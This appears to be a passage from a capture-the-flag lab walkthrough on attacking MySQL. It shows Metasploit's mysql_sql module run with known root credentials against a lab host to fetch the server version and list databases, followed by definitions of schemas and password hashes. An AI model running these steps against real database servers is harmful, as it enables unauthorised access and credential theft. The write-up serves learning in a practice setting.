 Run the exploit. By default it will test with the "select module()" command, what result does this give you?
```bash
msf6 auxiliary(admin/mysql/mysql_sql) > set RHOSTS 10.10.39.195
RHOSTS => 10.10.39.195
msf6 auxiliary(admin/mysql/mysql_sql) > set PASSWORD password
PASSWORD => password
msf6 auxiliary(admin/mysql/mysql_sql) > set USERNAME root
USERNAME => root
msf6 auxiliary(admin/mysql/mysql_sql) > exploit 
[*] Running module against 10.10.39.195

[*] 10.10.39.195:3306 - Sending statement: 'select version()'...
[*] 10.10.39.195:3306 -  | 5.7.29-0ubuntu0.18.04.1 |
[*] Auxiliary module execution completed
```
It's **5.7.29-0ubuntu0.18.04.1**.

Great! We know that our exploit is landing as planned. Let's try to gain some more ambitious information. Change the "sql" option to "show databases". how many databases are returned?
```bash
msf6 auxiliary(admin/mysql/mysql_sql) > set SQL SHOW DATABASES
SQL => SHOW DATABASES
msf6 auxiliary(admin/mysql/mysql_sql) > exploit 
[*] Running module against 10.10.39.195

[*] 10.10.39.195:3306 - Sending statement: 'SHOW DATABASES'...
[*] 10.10.39.195:3306 -  | information_schema |
[*] 10.10.39.195:3306 -  | mysql |
[*] 10.10.39.195:3306 -  | performance_schema |
[*] 10.10.39.195:3306 -  | sys |
[*] Auxiliary module execution completed
```
**4** databases.



## Exploiting MySQL
---
---
---
#### Recap
Let's take a sanity check before moving on to try and exploit the database fully, and gain more sensitive information than just database names. We know:
1. MySQL server credentials
1. The version of MySQL running
1. The number of Databases, and their names.

#### Key Terminology
In order to understand the exploits we're going to use next- we need to understand a few key terms.
- **Schema**: In MySQL, physically, a schema is synonymous with a database. You can substitute the keyword "SCHEMA" instead of DATABASE in MySQL SQL syntax, for example using CREATE SCHEMA instead of CREATE DATABASE. It's important to understand this relationship because some other database products draw a distinction. For example, in the Oracle Database product, a schema represents only a part of a database: the tables and other objects owned by a single user.
- **Hashes**: Hashes are, very simply, the product of a cryptographic algorithm to turn a variable length input into a fixed length output. In MySQL hashes can be used in different ways, for instance to index data into a hash table. Each hash has a unique ID that serves as a pointer to the original data. This creates an index that is significantly smaller than the original data, allowing the values to be searched and accessed more efficiently. However, the data we're going to be extracting are password hashes which are simply a way of storing passwords not in plaintext format.
